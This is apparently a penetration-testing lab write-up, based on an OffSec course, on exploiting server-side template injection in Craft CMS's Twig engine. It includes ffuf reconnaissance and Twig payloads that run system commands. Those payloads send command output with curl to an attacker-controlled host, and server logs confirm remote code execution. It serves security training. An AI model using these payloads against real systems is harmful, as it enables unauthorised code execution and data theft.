# Case Study: Craft CMS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

The source code of the web application contains some clues. More specifically, it discloses that the **Craft CMS** is used and the use of `[]` in the `name` attribute of the `input` field indicates the usage of the **PHP** programming language (Figure 1).

<figure><img src="../../../.gitbook/assets/web_ssti_craft_1.png" alt=""><figcaption><p>Figure 1: Inspecting the source code of the homepage.</p></figcaption></figure>

Performing a dirbusting with [`ffuf`](broken-reference) , we find that there is an `/admin` directory which further confirms that we are using the Craft CMS (Figure 2).

{% code overflow="wrap" %}
```bash
$ ffuf -u 'http://craft/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -c -ic -ac
<SNIP>

index          [Status: 200, Size: 56254, Words: 12711, Lines: 740, Duration: 2847ms]
admin          [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3572ms]
logout         [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3448ms]
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_ssti_craft_2.png" alt=""><figcaption><p>Figure 2: The <code>/admin</code> directory validates the usage of the Craft CMS.</p></figcaption></figure>

The home page of the web application provides a way to send an email to the site's administrator. **Emails are great targets for SSTI** as they consist of mainly generic elements which are then tailored to the user using a templating engine. Searching for "[_Craft CMS templating engine_](https://www.google.com/search?client=firefox-b-e\&q=craft+cms+templating+engine)" reveals that [Twig](twig.md) is used (Figure 3).

<figure><img src="../../../.gitbook/assets/web_ssti_craft_3.png" alt=""><figcaption><p>Figure 3: Enumerating Craft's templating engine.</p></figcaption></figure>

We can send an email containing a Twig-specific payload to form an out-of-band communication.

```twig
{{[0]|reduce('system','curl http://192.168.45.155:7331/hello')}}
```

When we send the email the payload is executed and we receive a response back.

{% code overflow="wrap" %}
```bash
$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
192.168.152.105 - - [15/Aug/2024 17:01:27] code 404, message File not found
192.168.152.105 - - [15/Aug/2024 17:01:27] "GET /hello HTTP/1.1" 404 -
```
{% endcode %}

To exfiltrate data in Twig, we use the [tilde character](https://twig.symfony.com/doc/3.x/templates.html#other-operators) (`~`) for string concatenation, which allows us to append the exfiltrated data to a `GET` request and the [`set`](https://twig.symfony.com/doc/3.x/tags/set.html) tag to declare variables. Additionally, we apply the [`url_encode`](https://twig.symfony.com/doc/3.x/filters/url_encode.html) method method to the `exfil` variable to ensure our payload is properly URL-encoded.

```bash
{% set output %}
{{[0]|reduce('system','whoami')}}
{% endset %}}

{% set exfil = output| url_encode %}
{{[0]|reduce('system','curl http://192.168.45.155:7331/?exfil=' ~ exfil)}}
```

In the response, we confirm that we have achieved RCE.

{% code overflow="wrap" %}
```bash
$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
192.168.152.105 - - [15/Aug/2024 17:45:00] "GET /?exfil=%3Cbr%20%2F%3E%0Awww-data%0Awww-data%3Cbr%20%2F%3E%0A HTTP/1.1" 200 -

# URL-decoding the exfiltrated data
$ echo "%3Cbr%20%2F%3E%0Awww-data%0Awww-data%3Cbr%20%2F%3E%0A" | python3 -c 'import sys;from urllib.parse import unquote;print(unquote(sys.stdin.read()));'
<br />
www-data
www-data<br />
```
{% endcode %}
